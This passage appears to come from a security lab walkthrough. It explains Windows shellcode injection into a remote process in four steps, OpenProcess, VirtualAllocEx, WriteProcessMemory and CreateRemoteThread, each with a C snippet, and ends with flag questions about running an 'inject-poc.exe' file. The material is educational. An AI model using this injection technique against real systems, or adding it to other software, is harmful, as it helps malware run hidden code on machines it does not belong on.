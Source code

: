 At step one, we can use `OpenProcess` to obtain the handle of the specified process.

```
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

At step two, we can use `VirtualAllocEx` to allocate a region of memory with the payload buffer.

```
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

At step three, we can use `WriteProcessMemory` to write the payload to the allocated region of memory.

```
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

At step four, we can use `CreateRemoteThread` to execute our payload from memory.

```
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```

### Answer the questions below

* Open a command prompt and execute the provided file: "inject-poc.exe" and answer the questions below.

* Enter the flag obtained from the executable below.

## Task 8 - Conclusion

